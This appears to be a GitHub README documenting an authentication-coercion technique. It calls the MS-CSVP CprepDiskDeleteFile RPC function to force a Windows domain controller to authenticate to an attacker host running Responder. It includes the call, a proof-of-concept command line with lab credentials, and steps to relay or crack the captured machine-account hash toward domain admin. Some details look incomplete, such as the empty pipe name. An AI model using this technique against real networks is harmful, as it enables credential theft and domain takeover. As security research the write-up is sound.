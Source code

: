 # MS-CSVP - Remote call to CprepDiskDeleteFile (opnum 19)

## Summary

 - **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

 - **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CprepDiskDeleteFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/d8032240-4b93-42bf-8bb4-32611b611fbd)

 - **Function operation number**: `19`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepDiskDeleteFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/d8032240-4b93-42bf-8bb4-32611b611fbd) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepDiskDeleteFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepDiskDeleteFile(
   [in] CPREP_DISKID DiskId,
   [in] unsigned long ulPartition,
   [in, string] wchar_t* FileName
 );
```

## References

 - Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

 - Documentation of function `CprepDiskDeleteFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/d8032240-4b93-42bf-8bb4-32611b611fbd